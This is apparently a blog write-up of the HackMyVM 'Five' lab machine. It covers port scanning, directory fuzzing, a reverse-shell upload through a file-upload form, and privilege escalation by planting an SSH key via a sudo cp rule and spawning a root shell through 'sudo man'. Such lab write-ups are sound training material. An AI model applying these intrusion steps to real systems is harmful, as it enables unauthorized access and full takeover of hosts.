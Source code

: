 ```yaml
---
layout: post
author: kohaku
title:  "Five"
date:   2022-01-01 09:27:06 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Five)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Tue Dec 28 20:31:18 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.250
Nmap scan report for 192.168.0.250
Host is up (0.018s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
| http-robots.txt: 1 disallowed entry 
|_/admin
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.2
|_http-title: 403 Forbidden

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 20:31:25 2021 -- 1 IP address (1 host up) scanned in 6.87 seconds
{% endhighlight  %}

# Port 80

Home page return a 403 code. So start to fuzzing

{% highlight bash %}
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.170
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2021/12/29 14:35:09 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 185] [--> http://192.168.0.170/uploads/]
/admin                (Status: 301) [Size: 185] [--> http://192.168.0.170/admin/]  
/upload.php           (Status: 200) [Size: 48]                                     
/upload.html          (Status: 200) [Size: 346]                                    
/robots.txt           (Status: 200) [Size: 17]
{% endhighlight  %}

## upload.html

![Untitled](/images/five/upload.png)

Upload a php reverse shell 

Intercept the request and go to the final of the request. Change the `uploads/` to `./` a

![Untitled](/images/five/reverse1.png) | ![Untitled](/images/five/reverse2.png)

Start the listerner and access `$IP/reverse.php`

![Untitled](/images/five/reverse3.png)

# User

{% highlight bash %}
sudo -l
User www-data may run the following commands on five:
    (melisa) NOPASSWD: /bin/cp
{% endhighlight  %}

Putting our private key to melisa’s authorized_keys

{% highlight bash  %}
ssh-keygen -f melisa
sudo -u melisa cp melisa.pub /home/melisa/.ssh/authorized_keys
{% endhighlight  %}

### SSH

Has a service running on port 4444

{% highlight bash  %}
netstat -tunlp
tcp        0      0 127.0.0.1:4444          0.0.0.0:*               LISTEN      -
{% endhighlight  %}

We can check using nc

![Untitled](/images/five/port4444.png)

{% highlight bash  %}
ssh -i melisa melisa@127.0.0.1 -p 4444
{% endhighlight  %}

# Root

{% highlight bash %}
sudo -l

User melisa may run the following commands on five:
    (ALL) SETENV: NOPASSWD: /bin/pwd, /bin/arch, /bin/man, /bin/id, /bin/rm, /bin/clear
{% endhighlight  %}

We can use man binary to spawn a shell has a root

{% highlight bash  %}
sudo man -P less man # -P it's use to select the pager 
!/bin/sh 
{% endhighlight  %}